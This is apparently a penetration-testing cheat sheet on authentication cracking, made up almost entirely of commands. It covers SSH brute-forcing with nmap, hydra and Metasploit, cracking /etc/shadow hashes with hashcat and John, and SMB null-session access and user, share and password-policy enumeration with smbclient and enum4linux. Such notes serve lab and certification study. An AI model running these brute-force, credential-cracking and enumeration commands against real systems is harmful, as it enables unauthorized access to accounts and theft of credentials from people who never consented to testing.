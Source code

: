 #### Authentication Cracking
|Types|Bruteforce Attack | Dictionary Attack |
|---|---|---|

> Factors Affecting Online Password Cracking: Latency, Delay, Processing time,etc....

#### SSH Bruteforce With Nmap

```
nmap 192.168.143.67 -p 22 --script ssh-brute --script-args userdb=username.txt,passdb=password.txt

```

#### SSH Bruteforce With Hydra
```
hydra -l student -P /usr/share/wordlists/rockyou.txt ssh://192.194.185.3 -f

```

#### SSH Bruteforce With Metasploit
```
scanner/ssh/ssh_login module
```

#### Crack /etc/hashes With hahcat and John
```
/etc/login.defs >> Check Hashing Algorithm

hashcat -m 1800 admin.hash /root/Desktop/wordlists/1000000-password-seclists.txt --force

john /etc/shadow --wordlist=/root/Desktop/wordlists/1000000-password-seclists.txt

```

#### nULl Session Attack

> Allows user to connect to network without valid password in windows server.

```
smbclient //10.10.10.10/C$ -N

enum4linux -U 192.168.23.1 >> Enumerate Users

enum4linux -n 192.168.23.1 >> NBT stat

enum4linux -P 192.168.23.1 >> GIVES PASSWORD POLICY ON REMOTE MACHINE

enum4linux -S 192.168.23.1 >> LIST SHARES

enum4linux -s /usr/share/enum4linux/share-list.txt 192.168.23.1  >> Bruteforce Shares

enum4linux -A 192.168.23.1 >> FULL ENUM

sambrdump.py 192.168.23.1 

nmap -script=smb-enum-shares,smb-enum-users,smb-brute 192.168.23.1


```

#### Accessing Public Shares with smbclient

```
smbclient //192.123.28.3/demo
```

#### Check perm across Shares

```
smbmap -H host
```
